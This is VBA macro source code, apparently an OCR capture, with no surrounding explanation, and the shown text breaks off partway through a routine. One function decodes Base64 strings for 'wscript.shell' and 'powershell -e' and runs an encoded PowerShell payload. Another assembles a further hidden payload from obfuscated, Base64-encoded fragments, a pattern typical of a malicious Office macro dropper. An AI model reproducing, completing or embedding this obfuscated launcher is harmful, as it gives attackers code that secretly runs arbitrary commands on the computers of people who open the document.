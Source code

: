     Public Function jyCu97WhS(args)
    x1 = Base64DecodeString("d3NjcmlwdC5zaGVsbA==")
    x2 = Base64DecodeString("cG93ZXJzaGVsbCAtZSA=")
    payload = x2 + "" + args
    CreateObject(x1).Run$ payload
    End Function

    Function Base64DecodeString(text As String) As String
        Dim byteArray() As Byte
        Dim objXML As MSXML2.DOMDocument60
        Set objXML = New MSXML2.DOMDocument60
        Dim objNode As MSXML2.IXMLDOMNode
        Set objNode = objXML.createElement("base64")
        objNode.DataType = "bin.base64"
        objNode.text = text
        byteArray = objNode.nodeTypedValue
        Base64DecodeString = VBA.StrConv(byteArray(), VbStrConv.vbUnicode, 1033)
        Set objNode = Nothing
        Set objXML = Nothing
    End Function

    Public Sub ghTyUj45d()
        Dim qa23erU As String
        Dim cvbNyt As String
        qa23erU = yKvCXNf("6vZkvnvaJ")
        cvbNyt = Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("HxhuvHDpX")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("KsyqLdEfG")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("NNG6ys8RW")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("RG9NQGaf8")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("JNmGZdLyA")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("svX3fsvW4")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("u2ZsRG4cZ")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("UKDw2uumd")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("RG9NQGaf8")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("hJ7YKYhFx")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("kjdR7phqk")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("6EYGHc3Pr")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("UC3DfPjDu")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("RG9NQGaf8")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("3tHgm2mDz")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("9qYkYZpJ2")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("dUAHakcVN")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("5m6T7M4wJ")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)
        qa23erU = yKvCXNf("6EYGHc3Pr")
        cvbNyt = cvbNyt + Base64DecodeString(qa23erU)